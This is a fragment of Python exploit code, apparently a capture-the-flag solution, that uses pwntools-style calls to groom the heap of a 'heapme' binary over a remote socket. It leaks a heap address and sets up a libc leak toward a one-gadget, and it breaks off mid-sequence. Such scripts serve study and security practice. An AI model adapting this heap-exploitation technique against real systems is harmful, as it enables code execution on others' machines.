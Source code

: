 ```python
    io.recvuntil('Data: ')
    io.sendline(data)


def final(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)


def paddTo64(e):
    dif = 8 - len(e)
    for i in range(dif):
        e = e + '\x00' 
    return (e)



offsetFromOneGadget = 0x2d3a31
#offsetFromOneGadget = 0x2d5f6e


io = remote.fromsocket(ssock)
#io = process("strace -o /tmp/strace ./heapme".split(" ") )
#io = process("./heapme")


print ("[@] Getting heapLeak...")


#sleep(19)


createDisk(8, 38)
createDisk(8, 39)
deleteDisk(38)
deleteDisk(39)
createDisk(8, 40)
heapLeak = readDisk(40)


heapLeak = heapLeak[:-1]
heapLeak = paddTo64(heapLeak)


heapLeak = struct.unpack('<Q', heapLeak)[0]
print("[*] heapLeak = " + hex(heapLeak))
print("[@] Getting libcLeak...")


deleteDisk(40)
createDisk(0x100, 38)
createDisk(0x208, 39)
createDisk(0x100, 40)
deleteDisk(39)



createDisk(0x100, 39)
createDisk(0x80, 41)
deleteDisk(39)
```